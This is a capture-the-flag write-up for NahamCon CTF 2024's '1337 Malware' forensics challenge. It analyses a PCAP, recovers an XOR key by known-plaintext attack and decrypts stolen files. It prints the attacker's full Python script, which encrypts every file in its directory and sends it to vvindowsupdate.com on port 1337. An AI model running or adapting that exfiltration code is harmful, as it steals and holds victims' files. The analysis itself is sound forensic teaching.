  # 1337 Malware - NahamCon CTF 2024

 ## Challenge Description

 ```We received a plea for help from a rather frustrated looking employee. He said he accidently ran malware on his computer, but when he tried to pay the "leet hacker" to get his files back they said the malware was "broken"... best IT could do was provide us a PCAP.```

## Enumeration

We are given a PCAP file that will contain all the information needed to solve the challenge. Let's open it up in Wireshark.

![](./Attachments/wireshark.png)

Quickly looking through the capture, we have a majority of general TCP traffic as well as two HTTP packets. Let's looks closer at the HTTP request and see if there's anything interesting.

![](./Attachments/ransrequest.png)

We see a GET request to `vvindowsupdate.com/rans.py` - looks like the attacker has typosquatted the windowsupdate domain hoping to trick an unsuspecting user into navigating to their domain instead. `rans.py` is interesting so let's see if the response contains the script.

![](./Attachments/ransresponse.png)

Yes! We have the script used to exploit this user in plain text. Let's take a closer look at the payload.

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

# DON'T FORGET TO CHANGE THIS TO THE REAL KEY!!!!
key = randbytes(32)
```

The script starts off by importing the modules it needs to function, followed by a key declaration and a comment. It looks like the attacker didn't take his own advice and generated the key using a random 32 byte value. This is probably why the attacker believe his malware to be "broken".

We'll remember this for later and move on to the rest of the script.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted

def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()

def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)      
    return file_paths
```

Here we have the three functions defined by the attacker to get the files in the current directory, encrypt them, and then send the encrypted version of the files back to his domain over port 1337.

Finally, the script executes these functions.

```python
files = get_all_files()
for f in files:
    send_encrypted(f)
    #os.remove(f)
```

It appears as though the intention of the attacker was to encrypt and exfiltrate the users files, and then remove the files from the victim's computer, however `os.remove` is commented out.

`get_all_files()` isn't all that interesting, so let's skip that and look closer at `send_encrypted()`.

```python
def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()
```

The attacker was nice enough to name the files as they were exfiltrated by sending the file name to his server, which can be picked up through the network traffic.

To confirm, let's take another look at the PCAP.

![](./Attachments/filename.png)

Yep, they leaked the file names over the network. We can use this to our advantage later.

The encrypt function is going to be the most interesting for us, so let's take a closer look there.

```python
def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()
   
    encrypted = xor(data, key)
    return encrypted
```

We can see that the only form of "encryption" in use is an XOR function, which takes the plaintext of the files and XORs each byte with the key. It will be very important to find the key as this will be the only way we are able to recover the encrypted files.

This is where the fact that file names are leaked comes in handy. If we look further at the files that were exfiltrated, we have this list:

- resources.zip
- ecorp.png
- Welcome Aboard.pdf
- id_rsa
- id_rsa.pub

Before we continue, let's talk quickly about XOR and it's viability in ciphertext generation. XOR by itself is not considered cryptographically secure. The exclusive or function is associative and commutative, which means that the order of input values and how they are grouped does not affect the final output. Also, XOR has a unique property that makes it possible to inverse input and output, called self-inversion. This is especially useful in cryptanalysis because it means that if you have the ciphertext and some corresponding plaintext, you can derive the key that was used to turn plaintext into ciphertext.

This is known as a known-plaintext attack (KPA). More information can be found [here](https://blog.nviso.eu/2023/10/12/xor-known-plaintext-attacks/).

Knowing this about the malware at hand, we know that if we had the plaintext of any of the encrypted files, we could easily derive the key using the XOR function itself.

It might seem like we don't have the plaintext, but we can make a few assumptions about the files that were exfiltrated.

The file formats for .zip, .png, and .pdf all use some form of "magic bytes", or the first few bytes of the file that indicate in what format the data is stored.

- .zip - `0x50 0x4B 0x03 0x04`
- .png - `0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A`
- .pdf - `0x25 0x50 0x44 0x46`

Theoretically we could use these byte strings to derive the strings, but remember that we know the key is 32 bytes in length, so these values would only be able to recover the partial key.

That leaves us `id_rsa` and `id_rsa.pub`. Luckily, we know that id_rsa has a standard format. We can generate an openssh private key using `ssh-keygen` to confirm, but we know that every openssh private key starts with this string: `-----BEGIN OPENSSH PRIVATE KEY-----`.

Yes! This string is 36 characters in length which means it is greater than 32 bytes. We should be able to recover the key with this value.

First, we'll write a script that recovers the key using the ciphertext of the id_rsa file recovered the PCAP and the known plaintext.

```python
from pwn import xor
import os

def recover_key():
    ciphertext = bytes.fromhex("afef7e7da6970900eeab4da38833...b5f55b98fb892d")

    known_plaintext = "-----BEGIN OPENSSH PRIVATE KEY-----".encode()

    blob = xor(ciphertext, known_plaintext)
    key = blob[:32]
    return key
```

This function XORs the ciphertext and known-plaintext and returns a blob of data, from which we can grab the first 32 bytes. This is the key that was used to encrypt the victim's files!

From there, we can write a script that iterates through the encrypted files downloaded from wireshark and decrypts them all.

```python
def decrypt(ciphertext, key):
    plaintext = xor(ciphertext, key)
    return plaintext

directory = "/home/astra/nahamconctf/forensics/1337malware"
for file in os.listdir(directory):
    if file.endswith('.enc'):
        with open(os.path.join(directory, file)) as f:
            ciphertext = bytes.fromhex(f.read())
            plaintext = decrypt(ciphertext, key)
            b = open(os.path.join(directory, file).strip(".enc"), "wb")
            b.write(plaintext)
```

Now that we have all the files decrypted, we can sift through them for any important information (like the flag!).

Resources.zip is interesting, let's try and unzip it:

![](./Attachments/resourcezip.png)

It's password protected. Let's see if we can find the password somewhere. Let's look at `Welcome Aboard.pdf` next.

![](./Attachments/welcomeaboard.png)

And we've got the password for the zip! All that's left to do is unzip `resources.zip` and get the flag!